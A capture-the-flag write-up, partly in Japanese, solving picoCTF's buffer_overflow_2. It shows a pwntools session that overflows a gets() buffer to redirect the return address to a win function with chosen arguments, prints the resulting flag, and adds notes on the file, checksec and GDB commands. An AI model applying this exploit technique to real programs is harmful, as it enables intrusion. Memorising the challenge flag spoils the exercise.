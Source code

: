 # buffer_overflow_2:bynary Medium  
Control the return address and arguments  
Download the source [here](buffer_overflow_2.c)   
Additional details will be available after launching your challenge instance.  

# Solution  
バイナリ、ソースコードが渡される。  
from pwn import *  
>>> p = remote("saturn.picoctf.net",55989)  
[x] Opening connection to saturn.picoctf.net on port 55989  
[x] Opening connection to saturn.picoctf.net on port 55989: Trying 13.59.203.175  
[+] Opening connection to saturn.picoctf.net on port 55989: Done  
>>> payload = b"a"*112   
>>> payload += p32(0x08049296)  
>>> payload += p32(0x0)  
>>> payload += p32(0xCAFEF00D) + p32(0xF00DF00D)  
>>> p.sendline(payload)  
>>> p.interactive()  
[*] Switching to interactive mode  
Please enter your string:   
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa��  
picoCTF{argum3nt5_4_d4yZ_59cd5643}[*] Got EOF while reading in interactive  

# 基礎知識  
fileコマンド  
指定したファイルの「ファイルの種類（タイプ）」を判定する Linux/Unix のコマンド  
構文：file [オプション] ファイル名  
checksecコマンド  
Linuxバイナリに有効化されているセキュリティ機能を確認するツール  
構文：checksec --file=バイナリファイル名  

x/40xw $esp
GDB（GNU Debugger）で使うメモリの中身を見るコマンド
今回の場合は、ESP（スタックポインタ）から始まるメモリ領域を、4バイト単位で40個、16進数形式で表示させるという意味



# 考えたこと  
問題名からバッファオーバーフローをすることが分かる。また、gets(buf);という脆弱性を発見した。
ここで、バッファオーバーフローしてリターンアドレスをWIN関数のアドレス値に書き換えることでフラグを獲得できると考えた。pwntoolsを使ってデータを送信し、対話形式で実行するとFLAGを獲得できた。